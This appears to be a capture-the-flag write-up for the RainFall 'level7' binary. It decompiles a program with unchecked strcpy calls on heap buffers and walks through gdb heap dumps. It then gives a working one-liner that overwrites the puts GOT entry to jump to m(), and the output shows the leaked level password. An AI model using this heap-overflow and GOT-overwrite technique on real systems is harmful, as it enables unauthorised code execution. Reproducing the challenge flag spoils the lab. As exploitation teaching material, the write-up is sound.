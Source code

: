 ## Step 1: Static & Dynamic Analysis

```c
080484f4    int32_t m()
080484f4    {
080484f4        return printf("%s - %d\n", &c, time(nullptr));
080484f4    }

08048521    int32_t main(int32_t argc, char** argv, char** envp)
08048521    {
08048521        int32_t* ptr1 = malloc(8);
0804853e        *(uint32_t*)ptr1 = 1;
08048556        ptr1[1] = malloc(8);
08048560        int32_t* ptr2 = malloc(8);
0804856d        *(uint32_t*)ptr2 = 2;
08048585        ptr2[1] = malloc(8);
080485a0        strcpy(ptr1[1], argv[1]);
080485bd        strcpy(ptr2[1], argv[2]);
080485eb        fgets(&c, 0x44, fopen("/home/user/level8/.pass", u"r…"));
080485f7        puts("~~");
08048602        return 0;
08048521    }
```

### Explanation
Here, the binary allocates a first block of `8 bytes`.  
In the first half (size: `4 bytes`), it stores an integer value (`1`), and in the second half, it stores a pointer (size: `4 bytes`) to a second address space, provided by another malloc (`8 bytes`).  
In this second address space, the binary will use `strcpy()` to copy the `argv[1]` parameter without performing any checks for a potential `buffer overflow`.  
The binary performs the exact same operation a second time, but this time it stores `2` as the integer value and uses `strcpy()` on `argv[2]`.  

If we supply more than `8 bytes` as the first and second parameters, we will overwrite the data stored next to them.  

```asm
(gdb) disas main
   ...
   ...
   0x080485eb <+202>:   call   0x80483c0 <fgets@plt>
   0x080485f0 <+207>:   movl   $0x8048703,(%esp)
   0x080485f7 <+214>:   call   0x8048400 <puts@plt>
   0x080485fc <+219>:   mov    $0x0,%eax
   0x08048601 <+224>:   leave  
   0x08048602 <+225>:   ret  
```

```bash
(gdb) b*0x080485f7

(gdb) run "aaaaaaaa" "aaaaaaaa"

(gdb) info proc mappings
process 4420
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000        0x0 /home/user/level7/level7
         0x8049000  0x804a000     0x1000        0x0 /home/user/level7/level7
         0x804a000  0x806b000    0x21000        0x0 [heap]
        0xb7e2b000 0xb7e2c000     0x1000        0x0 
        0xb7e2c000 0xb7fcf000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so
        0xb7fcf000 0xb7fd1000     0x2000   0x1a3000 /lib/i386-linux-gnu/libc-2.15.so
        0xb7fd1000 0xb7fd2000     0x1000   0x1a5000 /lib/i386-linux-gnu/libc-2.15.so
        0xb7fd2000 0xb7fd5000     0x3000        0x0 
        0xb7fdb000 0xb7fdd000     0x2000        0x0 
        0xb7fdd000 0xb7fde000     0x1000        0x0 [vdso]
        0xb7fde000 0xb7ffe000    0x20000        0x0 /lib/i386-linux-gnu/ld-2.15.so
        0xb7ffe000 0xb7fff000     0x1000    0x1f000 /lib/i386-linux-gnu/ld-2.15.so
        0xb7fff000 0xb8000000     0x1000    0x20000 /lib/i386-linux-gnu/ld-2.15.so
        0xbffdf000 0xc0000000    0x21000        0x0 [stack]
```

```bash
(gdb) x/32wx 0x804a000
0x804a000:      0x00000000      0x00000011      0x00000001      0x0804a018
0x804a010:      0x00000000      0x00000011      0x61616161      0x61616161
0x804a020:      0x00000000      0x00000011      0x00000002      0x0804a038
0x804a030:      0x00000000      0x00000011      0x61616161      0x61616161
0x804a040:      0x00000061      0x00020fc1      0xfbad240c      0x00000000
0x804a050:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a060:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a070:      0x00000000      0x00000000      0x00000000      0xb7fd1980
(gdb)
```

At this point, we can observe that by overflowing our first parameter, we overwrite `0x0804a038`, which is the address pointing to the address space allocated by the last malloc.  
This address space is where `strcpy()` will write `argv[2]`.  

If we overwrite this pointer with the address of the `puts()` entry in the `GOT` and then provide the address of `m()` as the second parameter, the binary will jump to `m()` instead of calling `puts()`.  

```asm
int puts(const char *s);
0x08048400      jmp     dword [puts] ; 0x8049928
0x08048406      push    0x28       ; '(' ; 40
0x0804840b      jmp     section..plt
```

## Step 2: Exploiting the Binary
```bash
level7@RainFall:~$ ./level7 "$(python -c 'print(("A" * 20) + ("\x08\x04\x99\x28"[::-1]))')" "$(python -c 'print(("\x08\x04\x84\xf4"[::-1]))')"
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
level7@RainFall:~$
```